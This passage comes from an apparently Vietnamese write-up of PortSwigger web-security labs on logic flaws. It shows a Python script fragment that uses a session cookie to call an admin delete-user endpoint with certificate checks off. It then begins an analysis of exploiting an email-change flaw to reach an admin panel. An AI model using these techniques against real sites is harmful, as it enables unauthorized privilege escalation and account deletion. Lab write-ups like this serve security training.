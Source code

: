 ```python!
    verify=False,
    )

session = response.headers
print(session)


cookies = {
    'session': session,
}

response = requests.get(
    url + '/admin/delete?username=carlos',
    cookies=cookies,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

## 5. Lab: Inconsistent security controls

link: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-security-controls

### Đề bài

![image](https://hackmd.io/_uploads/ryzmfrQ36.png)

### Phân tích

- trang web xác thực danh tính quản trị viên với email nội bộ. Tuy nhiên đang có một lỗ hổng logic flaw khiến người dùng thông thường có thể truy cập trang quản trị. Chúng ta cần truy cập vào trang quản trị và xóa đi tài khoản người dùng Carlos.

- mình dùng dirsearch thấy được trang /admin
  chúng ta sẽ có thể có quyền truy cập đến admin panel bằng tài khoản của nhân viên Dontwannacry

![image](https://hackmd.io/_uploads/SydIQH7ha.png)

- chúng ta có mail

![image](https://hackmd.io/_uploads/SyTVmHX3p.png)

trang web không còn chứa lỗ hổng logic flaw trong đăng ký tài khoản. Tuy nhiên, sau khi đăng nhập, lưu ý chức năng đổi email cho người dùng:

![image](https://hackmd.io/_uploads/r1BDVS72T.png)

![image](https://hackmd.io/_uploads/BkI8NHQ36.png)

